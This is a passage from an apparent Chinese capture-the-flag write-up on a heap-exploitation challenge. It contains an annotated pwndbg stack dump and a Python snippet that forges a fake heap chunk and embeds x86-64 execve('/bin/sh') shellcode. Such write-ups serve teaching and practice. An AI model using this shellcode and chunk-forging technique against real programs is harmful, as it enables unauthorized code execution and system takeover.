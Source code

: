 当执行这些代码之后，内存空间所示如下：

> 以下内存是在程序正常运行时最开始3次输入完成之后得到的，仅供参考。
>
> 开始输入的内容分别为：123，456，789
>
> 有些地方不准确，之后会提到。
>

```c
#发送payload之后(输入name之后),泄露rbp
#泄露出来的值为：0x00007fffffffdda0 
pwndbg>  x/50gx 0x7fffffffdc98
0x7fffffffdc98: 0x0000000000400824  0x000000000000000e
0x7fffffffdca8: 0x0000000000000000  0x00007fffffffdcd0
0x7fffffffdcb8: 0x00000000004009e0  0x0000000000000000
0x7fffffffdcc8: 0x00007ffff7ffe168  0x00007fffffffdd20
0x7fffffffdcd8: 0x0000000000400a8c  0x????????????????
    								#buf从这里开始
0x7fffffffdce8: 0x????????????????	0x????????????????
0x7fffffffdcf8: 0x00007ffff7a43ea0  0x0000000000000009
0x7fffffffdd08: 0x00000000004008b5  0x0000000000??????
    								#输入的id内容
									#此内容所在的地址为：0x7fffffffdd10
0x7fffffffdd18: 0x0000000000603010  0x00007fffffffdd80
0x7fffffffdd28: 0x0000000000400b34  0x00007ffff7dd18e0
0x7fffffffdd38: 0x00007ffff7fdc700  0x0000000000000003
0x7fffffffdd48: 0x00000000000001c8  0x6161616161616161 
    			#输入的id大小 		 #name从这里开始
0x7fffffffdd58: 0x6161616161616161  0x6161616161616161
0x7fffffffdd68: 0x6161616161616161  0x6161616161616161
0x7fffffffdd78: 0x6161616161616161  0x00007fffffffdda0 
    								#printf会泄露的内容：&rbp
0x7fffffffdd88: 0x0000000000400b59  0x00007fffffffde88
0x7fffffffdd98: 0x0000000100000000  0x0000000000400b60
    								#rbp，内容所在的地址为：0x7fffffffdda0
0x7fffffffdda8: 0x00007ffff7a2d840  0x0000000000000001
    			#d840是main函数的返回地址
0x7fffffffddb8: 0x00007fffffffde88  0x00000001f7ffcca0
0x7fffffffddc8: 0x0000000000400b36  0x0000000000000000
0x7fffffffddd8: 0x35e7fe72fd004534  0x00000000004006b0
0x7fffffffdde8: 0x00007fffffffde80  0x0000000000000000
0x7fffffffddf8: 0x0000000000000000  0xca18010d50a04534
0x7fffffffde08: 0xca1811b744304534  0x0000000000000000
0x7fffffffde18: 0x0000000000000000  0x0000000000000000
Pwndbg> 
```



#### 伪造fake_chunk
```python
	#Step 2: fake chunk
	# "\x00" to cut off strcpy()
	shellcode = "\x00\x31\xf6\x48\xbb\x2f\x62\x69\x6e"
	shellcode += "\x2f\x2f\x73\x68\x56\x53\x54\x5f"
	shellcode += "\x6a\x3b\x58\x31\xd2\x0f\x05"
	payload = (shellcode+p64(0)*2+p64(0x41)).ljust(0x38,'\x00')
	payload = payload+p64(reg_RBP-0x90)
	fake(payload)
'''
def fake(payload):
	sh.sendlineafter("give me your id ~~?","31")
	sh.sendafter("give me money~",payload)
        
'''
```